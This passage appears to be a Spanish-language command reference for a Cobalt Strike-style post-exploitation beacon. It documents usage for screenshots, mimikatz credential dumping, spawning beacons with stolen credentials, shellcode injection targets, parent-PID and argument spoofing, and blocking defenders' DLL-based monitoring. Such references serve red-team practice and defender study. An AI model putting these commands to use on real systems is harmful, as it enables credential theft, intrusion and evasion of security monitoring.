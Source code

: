 - **uso de la captura de pantalla:**
```
captura de pantalla [pid] [x86|x64] [tiempo de ejecución en segundos]
```
p. ej.
```
captura de pantalla 1042 x64 15
captura de pantalla 773 x86 5
```
- **contraseña de inicio de sesión:** Ejecuta la conocida función **contraseñas de inicio de sesión** de mimikatz en la máquina actual. Esta función, por supuesto, utiliza la inyección de procesos, por lo que no es segura para OPSEC; úsela con precaución.
- **mimikatz:** Puede ejecutar cualquier función de mimikatz. La funcionalidad del controlador mimikatz no está incluida.

## Varios
- **spawn:** Genera una nueva baliza en la máquina actual. Puede elegir el tipo de oyente que desee.
- **spawn Uso:**
```
spawn [x86|x64] [oyente]
```
p. ej.
```
spawn x64 Lab-HTTPS
spawn x86 Lab-SMB
...
```
- **spawnas:** Genera una nueva baliza en la máquina actual como otro usuario proporcionando credenciales.
- **spawnas Uso:**
```
spawnas [DOMINIO\usuario] [contraseña] [oyente]
```
p. ej.
```
spawnas CORP\bob.smith baseBall1942 Lab-SMB
spawnas Administrador SuperS3cRetPaSsw0rD Lab-HTTPS
...
```
- **spawnto:** Establece Ejecutable que Beacon usará para generar e inyectar shellcode para su funcionalidad posterior a la explotación. Debe especificar la ruta completa del ejecutable.
```
spawnto [x86|x64] [c:\path\to\whatever.exe]
```
p. ej.
```
spawnto x64 c:\programdata\beacon.exe
spawnto x86 c:\users\S1ckB0y1337\NotMalware\s1ck.exe
```
- **spawnu:** Si se intenta generar una sesión con un PID de suplantación como padre, el contexto del proceso coincidirá con la identidad del PID especificado.
```
spawnu [pid] [listener]
```
p. ej.
```
spawnu 812 Lab-SMB
spawnu 9531 Lab-DNS
...
```
- **argumento:** Enmascarará/falsificará los argumentos de un comando malicioso de nuestra elección con argumentos legítimos.
- **blockdlls:** Este módulo creará y establecerá una política personalizada en los procesos secundarios de Beacon que bloqueará la inyección de cualquier DLL de terceros que no esté firmada por Microsoft. De esta forma, podemos bloquear cualquier herramienta del equipo azul que utilice la inyección de DLL para inspeccionar y eliminar procesos y acciones maliciosas.